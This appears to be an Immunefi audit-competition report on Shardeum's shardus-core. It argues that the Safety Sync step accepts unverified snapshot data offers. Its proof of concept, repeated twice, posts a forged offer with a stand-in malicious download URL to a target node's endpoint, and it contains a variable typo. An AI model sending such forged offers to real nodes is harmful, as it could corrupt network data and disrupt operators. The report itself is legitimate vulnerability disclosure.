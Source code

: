 # #35965 \[BC-Insight] Unverified data in safety sync

## #35965 \[BC-Insight] Unverified Data in Safety Sync

**Submitted on Oct 14th 2024 at 14:48:40 UTC by @Ouabala for** [**Audit Comp | Shardeum: Core II**](https://immunefi.com/audit-competition/shardeum-core-ii-boost)

* **Report ID:** #35965
* **Report Type:** Blockchain/DLT
* **Report severity:** Insight
* **Target:** https://github.com/shardeum/shardus-core/tree/dev
* **Impacts:**
  * Increasing network processing node resource consumption by at least 30% without brute force actions, compared to the preceding 24 hours
  * Shutdown of greater than or equal to 30% of network processing nodes without brute force actions, but does not shut down the network
  * Data Corruption

### Description

\#Summary

The Safety Sync process in the Shardus Core codebase currently lacks verification of incoming data, which may allow an attacker to send corrupted or malicious data during the synchronization phase. This can lead to data integrity issues and potentially cause nodes to operate on invalid or harmful data, impacting the overall network reliability and safety.

## Details

The specific section of the code that raises this concern can be found in the Safety Sync process, where data offers are handled without adequate validation:

Vulnerable Code Line : https://github.com/shardeum/shardus-core/blob/23e06ded6744d8521cff9d749c1f1dd482c5fcb6/src/snapshot/index.ts#L455

\`\`\` const offer = createOffer()

// Send data offer to each node for (let i = 0; i < nodesToSendData.length; i++) { const res = await http.post( \`${nodesToSendData\[i].externalIp}:${nodesToSendData\[i].externalPort}/snapshot-data-offer\`, offer ).catch((e) => { console.error('Error sending data offer to node', e) }) }

\`\`\`

In the above code snippet, the offer object is sent to multiple nodes without any checks to verify its contents or the authenticity of the nodes. This creates an attack vector where a malicious node can impersonate a legitimate node and send false or corrupted data.

\#Proof of Concept (PoC)

An attacker can exploit this vulnerability by crafting a malicious data offer and sending it to a node. The following is a conceptual example demonstrating how this might be executed: Crafting a Malicious Offer:

\`\`\` const ManipulatedOffer = { networkStateHash: "maliciousHash", partitions: \["manipulatedPartition"], downloadUrl: "http://malicious-host-node/download-snapshot-data", }; ( Note that this only uses http in the original code which will let easly be intercapted with clear text )

const BadNode = { externalIp: "target-host-node-ip", externalPort: "target-node-port", };

await http.post( \`${BadNode.externalIp}:${Bad.externalPort}/snapshot-data-offer\`, ManipulatedOffer ).catch((e) => { console.error('Error sending malicious offer', e); });

\`\`\`

\#Potential Effects:

```
.The target node processes this malicious offer and starts syncing with corrupted data includes information about the current balances, transactions, and other vital data relevant to the network&#x27;s operation.

.Other nodes in the network that interact with this compromised node may also become affected.
```

Best, @Ouabala

### Link to Proof of Concept

https://gist.githubusercontent.com/ShellInjector/4b4158beb24646e0133d88f0e7abdd04/raw/56c6032c6986ad07596706890f3b566018667d69/gistfile1.txt

### Proof of Concept

### Proof of Concept

\`\`\` const ManipulatedOffer = { networkStateHash: "manipulatedHash", partitions: \["manipulatedPartition"], downloadUrl: "http://malicious-host-node/download-snapshot-data", }; ( Note that this only uses http in the original code which will let easly be intercapted with clear text )

const BadNode = { externalIp: "target-host-node-ip", externalPort: "target-node-port", };

await http.post( \`${BadNode.externalIp}:${Bad.externalPort}/snapshot-data-offer\`, ManipulatedOffer ).catch((e) => { console.error('Error sending malicious offer', e); });

\`\`\`
